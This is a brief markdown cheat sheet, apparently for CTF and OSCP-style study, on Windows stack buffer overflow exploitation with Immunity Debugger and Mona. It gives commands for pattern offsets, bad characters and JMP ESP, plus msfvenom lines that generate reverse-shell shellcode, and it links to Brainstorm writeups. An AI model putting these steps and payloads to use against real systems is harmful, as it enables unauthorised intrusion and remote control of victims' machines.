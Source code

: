 # Immunity Debugger + Mona
- Set Mona Working Folder
```
!mona config -set workingfolder c:\mona\%p
```
- Generate pattern
```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 3000
!mona pattern_create 3000
```
- After crash, note EIP value then identify the offset:
```
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 39654138
[*] Exact match at offset 2012
```
- Compare memory with bytearray to find bad chars
```
!mona bytearray
!mona compare -a esp -f c:\path\to\bytearray.bin
```
- Find JMP ESP Address
```
!mona jmp -r esp
```
- Generate shellcode
```sh
msfvenom -p windows/shell_reverse_tcp LHOST=0.0.0.0 LPORT=4444 -f c -b "\x00"
msfvenom -p windows/shell_reverse_tcp LHOST=0.0.0.0 LPORT=4444 -b "\x00" -f python EXITFUNC=thread
```
- Generate byte string
```python
for x in range(1, 256):
  print("\\x" + "{:02x}".format(x), end='')
print()
```

## Links
___
### Guides

### Writeups
- https://cd6629.gitbook.io/ctfwriteups/buffer-overflow-wlk/brainstorm-w
- https://noxious.tech/posts/Brainstorm/